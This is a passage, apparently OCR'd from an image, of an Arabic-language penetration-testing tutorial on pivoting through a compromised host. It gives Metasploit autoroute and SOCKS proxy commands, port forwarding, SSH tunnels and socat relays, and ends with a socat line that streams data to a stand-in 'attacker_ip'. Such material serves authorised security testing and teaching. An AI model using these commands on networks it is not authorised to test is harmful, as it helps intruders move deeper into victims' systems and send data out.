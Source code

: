 # استخدام وحدة autoroute
use post/multi/manage/autoroute
set SESSION [session_id]
set SUBNET 192.168.1.0
set NETMASK 255.255.255.0
run
بروكسي (Proxy)
# إنشاء بروكسي SOCKS من خلال Metasploit
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 5
run

# استخدام البروكسي مع أدوات خارجية (مثال: Nmap)
proxychains nmap -sT -Pn 192.168.1.100
Port Forwarding
# إعادة توجيه منفذ محدد
portfwd add -l 3389 -p 3389 -r 192.168.1.100

# تعطيل إعادة التوجيه
portfwd delete -l 3389
3. التنقل باستخدام أدوات SSH
bash
# إنشاء نفق SSH للوصول إلى منفذ داخلي
ssh -L 8080:192.168.1.100:80 user@compromised_host

# إنشاء بروكسي SOCKS عبر SSH
ssh -D 9050 user@compromised_host

# إعادة توجيه المنافذ الديناميكية
ssh -N -f -D 9050 user@compromised_host
4. التنقل باستخدام Socat
bash
# إعادة توجيه المنافذ
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80

# إنشاء قناة بين نظامين
# على النظام المخترق
socat TCP-LISTEN:8080,fork STDOUT | tee /tmp/pivot.log | socat STDIN TCP:attacker_ip:9090
